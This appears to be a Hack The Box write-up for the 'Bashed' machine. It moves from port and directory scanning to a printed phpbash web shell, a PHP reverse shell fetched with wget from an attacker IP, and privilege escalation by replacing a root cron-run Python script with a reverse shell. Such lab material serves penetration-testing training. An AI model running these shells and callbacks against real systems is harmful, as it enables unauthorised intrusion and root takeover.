bashed


nmap

only service running is http
phpbash github


phpbash.php source code
<?php
/* phpbash by Alexander Reid (Arrexel) */
if (ISSET($_POST['cmd'])) {
$output = preg_split('/[\n]/', shell_exec($_POST['cmd']." 2>&1"));
foreach ($output as $line) {
echo htmlentities($line, ENT_QUOTES | ENT_HTML5, 'UTF-8') . "<br>";
}
die();
} else if (!empty($_FILES['file']['tmp_name']) && !empty($_POST['path'])) {
$filename = $_FILES["file"]["name"];
$path = $_POST['path'];
if ($path != "/") {
$path .= "/";
}
if (move_uploaded_file($_FILES["file"]["tmp_name"], $path.$filename)) {
echo htmlentities($filename) . " successfully uploaded to " . htmlentities($path);
} else {
echo "Error uploading " . htmlentities($filename);
}
die();
}
?>
/* phpbash by Alexander Reid (Arrexel) */
if (ISSET($_POST['cmd'])) {
$output = preg_split('/[\n]/', shell_exec($_POST['cmd']." 2>&1"));
foreach ($output as $line) {
echo htmlentities($line, ENT_QUOTES | ENT_HTML5, 'UTF-8') . "<br>";
}
die();
} else if (!empty($_FILES['file']['tmp_name']) && !empty($_POST['path'])) {
$filename = $_FILES["file"]["name"];
$path = $_POST['path'];
if ($path != "/") {
$path .= "/";
}
if (move_uploaded_file($_FILES["file"]["tmp_name"], $path.$filename)) {
echo htmlentities($filename) . " successfully uploaded to " . htmlentities($path);
} else {
echo "Error uploading " . htmlentities($filename);
}
die();
}
?>
http


gobuster
dev/phpbash.min.php
checking out phpbash.php, we see that the webserver spawns an interactive shell for us to play around with! however, it is slightly limited if we look back at the phpbash.php source code, so lets call a shell back to our attack machine so we can work with a fully functional shell

foothold calling back reverse shell with php.rev
since the server is coded in php, it makes sense to choose a reverse shell written in php, we can find one on pentestmonkey
next set these parameters in your rev.php file to call back to your ip and port


next serve up an http server on your attack machine and download it to your victim via wget
wget 10.10.14.62/rev.php


finally, navigate to your downloaded php script on bashed's /upload/ directory, set up a listener and voila!

we popped a shell and got a foothold on the box!

lets spawn an interactive shell with
python -c ‘import pty;pty.spawn("/bin/bash")’

priv esc to scriptmanager
running sudo -l to check what scripts we can run as root without a password we see:
we don't need a password for scriptmanager, let switch to his account
run sudo -u scriptmanager with bash spawn argument:
sudo -u scriptmanager /bin/bash

priv esc to root
notice scripts is owned by scriptmanager
Linux smart enumeration
its always good habit to run a privilege escalation script to catch anything that may otherwise be hard to spot,a favorite of mine is lse.sh (linux smart enumeration) because its report is very easy to follow and comprehend


if you don't have it I highlt recommend downloading it to your /opt folder



upload lse.sh
lets spin up an http server with python -m SimpleHTTPServer <port>
and download it to our victim box with wget

chmod -x lse.sh to make it executable and run it with bash or ./

lse report
lets use -level 1 to output some interesting finds to document, skip passed the password prompt since we don't know scriptmanager's passwordlse.sh -l 1
according to the report, there is a sessionclean script that runs every minute but we unfortunately cannot read what it does, lets keep it in mind and move on

the report also indicates that the cron jobs are all run with root permissions, this indicates we can most likely exploit it to gain root privilieges if we can overwrite or hijack a script that the sessionclean cron job uses

we see also from the report we can write to few files that may be worth looking into, lets check out the scripts folder

test.py cron job
test.py has got to be a cron job that updates itself every minute, its also owned by root! This is our ticket in....

we notice that test.txt was updated a minutes ago!
lets see what test.py does

we see that test.txt is outputted

it has become overabundantely clear that since scriptmanager owns test.py and root runs test.py every MINUTE, we can easily hijack test.py to run a reverse shell in python to call back to our attack machine and simply wait a minute for root's cron job to execute it with root privileges back to us
reverse shell
Lets use pentest monkey's python script to connect back to our attacking machine every time it executes
simply tweak  to call back to your own ip and port of your choosing

Lets use wget to download our reverse shell and run it on our victim machine:

Lets also rename our rev_shell.py to test.py, hijacking test.py so it will be run every minute as root
when test.py executes on the minute we will spawn a shell as root and officially own the box!

user/root

lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/